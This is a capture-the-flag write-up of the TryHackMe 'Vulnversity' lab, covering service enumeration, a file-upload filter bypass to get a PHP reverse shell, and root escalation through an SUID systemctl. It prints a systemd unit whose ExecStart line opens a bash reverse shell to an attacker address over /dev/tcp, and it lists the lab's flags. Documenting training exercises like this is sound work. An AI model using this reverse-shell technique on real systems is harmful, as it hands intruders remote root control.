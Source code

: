 ```yaml
---
title: Vulnversity (Try Hack Me)
author: Robin Goyal
date: 2021-09-11 18:00 -0400
categories: [Cybersecurity, Writeups]
tags: [thm, ctf, writeup]
hidden: true
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/85dee7ce633f5668b104d329da2769c3.png
---
```


I am currently in the process of completing these boxes on Try Hack Me again in an effort to document my experience, reinforce my knowledge of the topics, and improve my ability to concisely communicate the pentest lifecycle.

## Enumeration

As always, let's perform an initial nmap scan of the top 1000 ports.

![nmap results](/assets/img/posts/thm-vulnversity/nmap-initial.jpg)

There's lots to digest but let's take it step by step. There are several open ports:
- 21 (FTP)
- 22 (SSH)
- 139/445 (Samba)
- 3128 (Squid Proxy)
- 3333 (HTTP)

The target is likely an Ubuntu Linux OS from the version information for SSH and HTTP services.

The smb scripts against the Samba service reveal the OS (though Windows 6.1 is likely incorrect), Computer name, Domain name, FQDN, and more.

Let's use a methodical approach to enumerate and exploit these services.

### FTP

The first approach I take with FTP is to just try out anonymous authentication.

![ftp failed login](/assets/img/posts/thm-vulnversity/ftp-failed-login.jpg)

Without a valid set of credentials and potentially vulnerable version of FTP, we'll loop back to this if necessary.

### Samba

For SMB, my initial approach is similar to FTP to list the shares using smbclient unauthenticated.

![smb client listing](/assets/img/posts/thm-vulnversity/smb-client-listing.jpg)

The shares ending with a $ may be default shares but there does not seem to be any shares with content for us to view.

### HTTP

Browsing to the index page of the web application,

![landing page](/assets/img/posts/thm-vulnversity/landing-page.jpg)

and we are presented with a beautiful landing page of "Vuln University".

Browsing the web application, there is no information leaked in the page source, no robots.txt file, or in the HTML content presented. Maybe directory enumeration will provide us a path to proceed with.

![gobuster](/assets/img/posts/thm-vulnversity/gobuster.jpg)

/internal does not look like it was meant for the users of the application. Let's see where it leads us to!

![internal](/assets/img/posts/thm-vulnversity/internal.jpg)

A form to upload files! This might be a vector to abuse the form and upload a reverse shell of ours. Before we do that, we need to figure out two things:
1. The backend language used (PHP, Python, Java, etc)
2. Where the files are uploaded

#### Form Upload

For the first point, I used nikto and whatweb to try to determine the backend programming language but no luck. However, Wappalyzer (a Chrome extension to analyze web application technologies), revealed that it was PHP.

![technologies](/assets/img/posts/thm-vulnversity/technologies.jpg)

Maybe Wappalyzer is guesstimating that it is PHP based on the other information but I could not determine it myself [^http-fingerprinting]. No matter. We shall assume it is PHP for now and try to upload a reverse shell payload.

Next, we'll need to determine where the uploaded files end up. It may likely be hidden behind the /internal endpoint since it's not meant to be exposed to the public.

![gobuster internal](/assets/img/posts/thm-vulnversity/gobuster-internal.jpg)

Great! With a /uploads folder, we have everything sorted out. Let's try to upload Pentest Monkey's reverse shell payload [^php-reverse-shell].

## Initial Foothold

Trying to upload the file as rev.php failed with an error message saying the extension is not allowed. We could try other php extensions that could bypass this server side filter [^php-extension-bypass].

There is only a few PHP extensions that we could manually modify the extension but let's hone our Burpsuite skills to build this attack in Burp Intruder.

Intercepting the upload file request and sending it off to Burp Intruder, we'll clear all payload positions and add one around the extension name.

![burp payload](/assets/img/posts/thm-vulnversity/burp-intruder-payload.jpg)

Next, we'll add our payload list and launch the attack.

![burp attack](/assets/img/posts/thm-vulnversity/burp-attack.jpg)

The .phtml extension is the only one with a different response length! We can set up a netcat listener, trigger the PHP code, and hopefully obtain a reverse shell if all of our assumptions about the backend language are correct.

![reverse shell](/assets/img/posts/thm-vulnversity/reverse-shell.jpg)

Success! We have obtained the reverse shell. The user flag is available at /home/bill/user.txt as a world-readable file and we can switch focus towards obtaining privilege escalation.

User Flag: `8bd7992fbe8a6ad22a63361004cfcedb`

## Privilege Escalation

We aren't able to check for sudo privileges for www-data since we're prompted for a password. There were no interesting files for bill or www-data and many of my typical commands did not pan out.

Next, I downloaded a Linux Privesc Enumeration Script (linpeas) from my attacker system and I could not find anything interesting.

After spending some time, I checked out the hint on the room description and it mentioned systemctl, a misconfigured SUID binary (more details in Reflection).

![suid](/assets/img/posts/thm-vulnversity/suid.jpg)

With the SUID bit set, this means we can execute this command without sudo but have sudo privileges.

Let's check if gtfobins has an entry for systemctl.

![systemctl](/assets/img/posts/thm-vulnversity/gtfobins.jpg)

Instead of reading a file, we'll modify the ExecStart value to create a reverse shell connection on port 5555 of our attacker system. The service file looks as follows:

```
[Unit]
Description=Generate Root Shell

[Service]
ExecStart=/bin/bash -c "/bin/bash -l > /dev/tcp/10.6.5.103/5555 0<&1 2>&1"

[Install]
WantedBy=multi-user.target
```

Once we set up our netcat listener on port 5555, we can link, enable, and start the service file as indicated in the gtfobins image, and we'll have our reverse shell!

![privesc](/assets/img/posts/thm-vulnversity/privesc.jpg)

There we go! We could upgrade the shell if we want to, but let's just get the root flag completing this room.

Root Flag: `a58ff8579f0a9270368d33a9966c7fd5`

## Reflection

Once again, I made the mistake of not being patient and enumerating the target properly. I reacted quickly and viewed the hint even though I ran the exact command needed to find the systemctl binary.

## References

[^http-fingerprinting]: <https://www.quora.com/Is-there-any-way-to-find-out-the-programming-language-used-in-the-website>
[^php-reverse-shell]: <https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php>
[^php-extension-bypass]: <https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass>
